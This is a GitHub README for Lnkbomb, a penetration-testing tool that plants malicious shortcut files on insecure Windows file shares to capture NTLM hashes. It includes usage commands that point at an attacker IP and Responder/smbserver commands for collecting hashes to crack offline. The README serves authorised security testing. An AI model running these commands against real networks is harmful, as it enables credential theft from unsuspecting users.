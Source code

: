 # Lnkbomb

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)

<p align="center">
  <img src="https://github.com/dievus/lnkbomb/blob/main/images/example.png" />
</p>

Lnkbomb is used for uploading malicious shortcut files to insecure file shares.  The vulnerability exists due to Windows looking for an icon file to associate with the shortcut file.  This icon file can be directed to a penetration tester's machine running Responder or smbserver to gather NTLMv1 or NTLMv2 hashes (depending on configuration of the victim host machine).  The tester can then attempt to crack those collected hashes offline with a tool like Hashcat.

The payload file is uploaded directly to the insecure file specified by the tester in the command line. The tester includes their IP address as well, which is written into the payload.

## Python Usage
Installing Lnkbomb

```git clone https://github.com/dievus/lnkbomb.git```

Change directories to lnkbomb and run:

```python3 lnkbomb.py -h```

This will output the help menu, which contains the following flags:

```-h, --help - Lists the help options```

```-t, --target - Specifies the target file share (ex. -t \\192.168.1.1\Share)```

```-a, --attacker - Specifies the tester's attack machine (ex. -a 192.168.1.2)```

```-r, --recover - Used to remove the payload when testing is completed (ex. -r randomfilegenerated.recover)```

Examples of full commands include:

```python3 lnkbomb.py -t \\192.168.1.1\Share -a 192.168.1.2```

```python3 lnkbomb.py -r randomfilegenerated.recover```

You will need to utilize a tool like Responder or smbserver to capture the NTLM hash.  
```responder -I eth0 -dwf -v```

or

```smbserver.py . . -smb2support```


<p align="center">
  <img src="https://github.com/dievus/lnkbomb/blob/main/images/example2.png" />
</p>

## Executable Usage
Download Lnkbomb from the releases link on the right side of the page.  All flags are the same as the Python version, with the exception of using lnkbomb.exe rather than python3 lnkbomb.py.


### Notes
Please keep in mind that this tool is meant for ethical hacking and penetration testing purposes only. I do not condone any behavior that would include testing targets that you do not currently have permission to test against.  
